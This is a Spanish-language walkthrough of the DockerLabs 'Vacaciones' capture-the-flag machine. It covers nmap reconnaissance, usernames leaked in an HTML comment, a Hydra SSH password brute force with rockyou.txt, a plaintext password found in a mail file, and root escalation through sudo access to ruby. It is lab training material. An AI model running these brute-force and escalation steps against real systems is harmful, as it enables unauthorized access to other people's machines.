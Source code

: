 
plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/YCEGAISD#y6iWUG_auH4vUApClb9ix7H6JmOCKm4vAYS2TjQn59g
Nombre: Vacaciones
Dificultad: Muy fácil



1 comprobamos si tenemos docker instalado de no ser así lo instalamos

```sh fold:"Comprobar si docker está instalado"
docker -v
```

```sh fold:"Instalacion de docker"
sudo apt install docker.io
```

Ahora levantamos la maquina:

```sh fold:"Levantamos la maquina en docker"
sudo bash auto_deploy.sh vacaciones.tar 

```


Desplegamos la máquina:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacaciones%20-%20Despliegue%20me%20maquina.png?raw=true)


Hacemos un ping para comprobar conectividad y sistema operativo:

ping 172.17.0.2       
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.154 ms


ttl=64 --> maquina Linux

ahora vamos a lanzar nmap
```sh fold:"Nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacacioens%20-%20Nmap%20result.png?raw=true)

puertos
puerto 22 ssh
puerto 80  http

vamos a lanzar el scrip de nmap para cada puerto:

puerto 80:
```sh fold:"Scrip vulnerabilidades de Nmap puerto 80"
sudo nmap --script "vuln" -p80 172.17.0.2 
```

Descubierto:   After NULL UDP avahi packet DoS (CVE-2011-1002).
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacacioens%20-%20%20Script%20vbuln%20p%2080.png?raw=true)

Ahora lanzamos el del puerto 22:

```sh fold:"Scrip vulnerabilidades de Nmap puerto 22"
sudo nmap --script "vuln" -p22 172.17.0.2 
```


Descubrimos la misma vulnerabilidad
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacacioens%20-%20%20Script%20Vulnerabilidad%20P22.png?raw=true)



no parece que podamos explotar nada
![image](


![[Dockerlabs - Vacacioens - Web.png]]

Al parecer no hay nada en la web:
Vamos a ver el código fuente:

![[Dockerlabs - Vacaciones - Codigo Fuente.png]]
y nos encontramos un mensaje:

<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
encontramos 2 usuarios:
- Juan
- Camilo


Alguno de estos usuarios podría estar en el sistema con acceso por SSH (puerto 22)

Como no conocemos la contraseña, solo podemos hacer fuerza bruta con Hydra





```sh fold:"Fuerza bruta con Hydra usuario camilo"
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Dockerlabs - Vacaciones - Hydra p 22 usuario camilo.png]]

User: camilo  
password: password1


intentamos hacer login por ssh

```sh fold:"ssh acces con camilo como usuario"
ssh camilo@T172.17.0.2
```

acceso con camilo:
![[Dockerlabs - Vacaciones - Acceso por ssh usuario camilo.png]]

## escalada de privilegios:
sudo -l
[sudo] password for camilo: 
Sorry, user camilo may not run sudo on 2f317d25df18.


```sh fold:"Revisar si tenemos permiso de escritura en /etc/passwd"
find / -writable -type f 2>/dev/null |grep '/etc/passwd' && ls -lah /etc/passwd
```
No result

```sh fold:"Revisar binarios que se puedan explotar"
find  / -perm -4000 2>/dev/null  
```

No result

Seguimos buscando
find / type f -name "*.txt" todos los ficheros txt:


![[Dockerlabs - Vacaciones - Fichero de correo encontrado.png]]

nos llama la atención este fichero  correo.txt que si tenemos acceso, vamos a abrirlo

![[Dockerlabs - Vacacioens -  Contenido fichero correo.png]]

Contenido:
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb

Obtenemos una contraseña vamos a probarla con el usuario root:
![[Dockerlabs - Vacaciones - Intento acceso rrot.png]]

Pero hno accedemos
también tenemos el usuario Juan vamos a probar con este usuario:

Ahora is tenemos acceso con el usuario Junan:
![[Dockerlabs - Vacaciones - Acceso usuario Juan.png]]



$ sudo -l
Matching Defaults entries for juan on 2f317d25df18:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 2f317d25df18:
    (ALL) NOPASSWD: /usr/bin/ruby

Buscamos esto en gyfobins:

![[Dockerlabs - Vacacioens -  Gtfobbins ruby sudo access.png]]

ejecutamos este comando
y conseguimos acceso root
![[Dockerlabs - Vacaciones - Root access.png]]


ahora vamos a  eliminar la maquina pulsando Ctrl+C
![[Dockerlabs - Vacacioens -  Eliminar la maquina.png]]

Maquina resuelta completamente!! :D



